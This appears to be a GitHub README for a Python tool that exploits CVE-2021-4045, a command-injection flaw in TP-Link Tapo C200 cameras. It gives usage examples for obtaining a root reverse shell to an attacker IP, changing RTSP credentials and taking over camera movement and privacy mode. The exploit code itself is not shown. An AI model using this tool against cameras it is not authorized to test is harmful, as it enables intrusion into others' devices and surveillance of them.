



# Tapo C200 Control Script



A powerful Python script to gain full control over TP-Link Tapo C200 IP cameras. This tool provides root access, RTSP credential modification, and complete camera control capabilities.

**⚠️ Disclaimer**: This project is for educational and security research purposes only. Use only on devices you own or have permission to test.

**CVE-2021-4045** is a remote code execution (RCE) vulnerability caused by command injection in the TP-Link Tapo c200 IP camera. Due to the bad input validation in *uhttpd*, a core component of the device, attackers are allowed to execute arbitrary commands. All firmware versions before **1.1.16 Build 211209 Rel. 37726N** are vulnerable. For a detailed analysis, refer to the full write-up by [@hacefresko](https://github.com/hacefresko/)  [here](https://github.com/hacefresko/CVE-2021-4045/).

## Key Features

- 🛠️ **Full Root Access**: Obtain a reverse shell with root privileges
- 🔑 **RTSP Control**: Modify video stream credentials
- 🎥 **Camera Control**:
  - Pan/tilt movement control
  - Privacy mode toggle (lens cover)
  - Preset position management (save/recall up to 8 positions)
  - Camera reboot and reset functions
- 📡 **Network Integration**: Easy setup for remote access

## Installation

1. Clone the repository:

  ```bash
  git clone https://github.com/yourusername/tapo-c200-control.git
  cd tapo-c200-control
  ```
2. Install required dependencies:

  ```bash
  pip install requests urllib3
  ```

## Usage
### Basic Command Structure
```bash
python3 tapocontrol.py -t <TARGET_IP> -a <ATTACKER_IP> -m <MODE> [OPTIONS]
```

### Modes of Operation
| Mode    | Description                        | Required Options     |
|---------|------------------------------------|----------------------|
| shell   | Get a reverse shell on the camera  | -p  (listening port) |
| rtsp    | Change RTSP stream credentials     | None                 |
| control | Interactive camera control console | None                 |

### Full Options
```text
Required Arguments:
  -t, --target         Tapo C200 IP address
  -a, --attacker       Your IP address for reverse shell callback
  -m, --mode           Operation mode (shell|rtsp|control)

Optional Arguments:
  -p, --revshell-port  Port for reverse shell (default: 1337)
  -v, --verbose        Enable verbose debugging output
```

## Examples
### Get a reverse shell:

```bash
python3 tapocontrol.py -t 192.168.1.100 -a 192.168.1.50 -m shell -p 4444
```

### Change RTSP credentials:

```bash
python3 tapocontrol.py -t 192.168.1.100 -a 192.168.1.50 -m rtsp
```

### Control camera movements:

```bash
python3 tapocontrol.py -t 192.168.1.100 -a 192.168.1.50 -m control
```

### Control Console Commands

Once in control mode, use these commands:

| Command           | Description                      |
|-------------------|----------------------------------|
| up [steps]        | Move camera up                   |
| down [steps]      | Move camera down                 |
| left [steps]      | Move camera left                 |
| right [steps]     | Move camera right                |
| stop              | Stop all movement                |
| preset_goto <1-8> | Recall saved preset position     |
| preset_set <1-8>  | Save current position as preset  |
| privacy_on        | Enable privacy mode (close lens) |
| privacy_off       | Disable privacy mode             |
| reboot            | Reboot the camera                |
| reset             | Reset camera to default position |
| exit              | Quit the control console         |

### Screenshots
#### Root shell access via reverse TCP connection


#### Modifying RTSP stream credentials


#### Interactive camera control console


## Security Notice
This script demonstrates security vulnerabilities in the Tapo C200 camera system. TP-Link has been notified about these issues.

### Important:

* Use only on devices you own
* Never deploy on networks without permission
* Understand that this may violate terms of service

### Author
[@TryH4ckM3](https://t.me/TryH4ckM3) - Security Researcher
